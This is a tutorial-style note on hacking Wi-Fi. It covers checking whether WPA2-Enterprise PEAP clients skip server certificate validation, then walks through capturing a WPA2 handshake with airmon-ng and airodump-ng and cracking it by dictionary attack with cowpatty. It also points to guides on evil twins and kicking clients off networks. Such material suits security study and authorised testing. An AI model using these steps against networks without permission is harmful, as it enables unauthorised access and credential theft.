

# Wifi


There are quite a few different security mechanism on wifi. And each of them require a different tactic. This article outlines the different strategies quite well. http://null-byte.wonderhowto.com/how-to/hack-wi-fi-selecting-good-wi-fi-hacking-strategy-0162526/


This is a great guide to the many different ways to hack wifi.


## WPA2 Enterprise with domain-login
It is common in corporate environments to let the users log in using their domain credentials.
If the client is authenticating using WPA2 with Protected EAP (PEAP), but is not validating server certificate then it is vulnerable to man in the middle.
PEAP is a TLS-tunneled EAP. So accepting any server certificate is just as bad as accepting any server certificate from a webpage.


- Check if server certificate is validated
Authenticate to the wifi network that is using domain-credentials and PEAP.
Right-click on the network name and click on Egenskaper/preferences. Click on Säkerhet/security. Click on inställningar/settings.
Check that the box "Bekräfta servercertifikat" is marked.
If it is not you can present any certificate to the client and they will all be accepted.




### Checking what networks are avalible

`sudo iwlist wlan0 scanning` - scans for wifis

### Hacking WPA2-wifis Using airmon-ng and cowpatty

What we are going to to here it basically just to record the 4-way handshake and then run a dictionary attack on it. The good part about this strategy is that you won't have to interfere to much with the network and thereby risk of taking down their wifi. The bad part is that if you run a dictionary attack there is always the possibility that the password just isn't in the list.

1. Start airmon-ng
 - `airmon-ng start wlan0`
 - This puts the network card in monitoring mode.
 - This will create a network interface that you can use to monitor wifi-action. This interface is usually called mon0 or something like that. You see the name when you run the command.

2. Run airodump to see what is passing through the air
 - Now we want to see what access points are available to us. 
 - `airodump-ng -i mon0`
 - This would output something like this:

```
CH 13 ][ Elapsed: 6 s ]

BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

E8:DE:27:31:15:EE  -62       40       54    0  11  54e  WPA2 CCMP   PSK  myrouter
A7:B6:68:D4:1D:91  -80        7        0    0  11  54e  WPA2 CCMP   PSK  DKT_D24D81
B4:EE:B4:80:76:72  -84        5        0    0   6  54e  WPA2 CCMP   PSK  arrisNetwork

BSSID       STATION            PWR   Rate    Lost    Frames Probe

E8:DE:27:31:15:EE  D8:A2:5E:8E:41:75  -57    0e- 1    537     14
```

So what is all this?
`BSSID` - This is the mac-address of the access point.
`PWR` - Signal strength. The higher (closer to 0) the strength the stronger is the signal. In the example above it is myrouter that has the strongest signal.
`Beacon` - This is kind of like a packet that the AP sends out periodically. The beacon contains information about the network. It contains the SSID, timestamp, beacon interval. If you are curious you can just analyze the beacons in wireshark after you have captured them.
`#Data` - The number of data-packets that has been sent.
`#/s` - Number of data-packets per second.
`CH` - Channel
`MB` - Maximum speed the AP can handle. 
`ENC` - Encryption type
`CIPHER` - One of CCMP, WRAP, TKIP, WEP, WEP40, or WEP104. Not mandatory, but TKIP is typically used with WPA and CCMP is typically used with WPA2.
`PSK` - The authentication protocol used. One of MGT (WPA/WPA2 using a separate authentication server), SKA (shared key for WEP), PSK (pre-shared key for WPA/WPA2), or OPN (open for WEP).
`ESSID` - The name of the network

Then we have another section of information.
`Station` - MAC address of each associated station or stations searching for an AP to connect with. Clients not currently associated with an AP have a BSSID of “(not associated)”. So yeah, this basically means that we can see what devices are looking for APs. This can be useful if we want to create an evil twin or something like that.

3. Find the network you want to access.
 - `airodump-ng --bssid A7:B6:68:D4:1D:91 -c 11 -w cowpatty mon0`
 - So this command will record or traffic from the device with that specific MAC-address. -c defines the channel. and `-w cowpatty` means that we are going to save the packet capture with that name. 
Now we just have to wait for a user to connect to that network. And when he/she does we will record that handshake.
We know that we have recorded a handshake when this appears
`CH 11 ][ Elapsed: 19 hours 52 mins ][ 2016-05-19 17:14 ][ WPA handshake: A7:B6:68:D4:1D:91`
Now we can exit airodump, and we can see that we have a cap-file with the name cowpatty-01.cap. That is our packet-capture, and you can open it and study it in wireshark if you like.

4. Crack the password.
- Now that we have the handshake recorded we can start to crack it. We can do that by using the program cowpatty.
- `cowpatty -f /usr/share/wordlists/rockyou.txt -r cowpatty-01.cap -s DKT_D24D81`
Then we just hope for the best.


##More
Kicking other people off the network to capture handshakes faster:
http://www.aircrack-ng.org/doku.php?id=newbie_guide

http://lewiscomputerhowto.blogspot.cl/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html

http://radixcode.com/hackcrack-wifi-password-2015-step-step-tutorial/

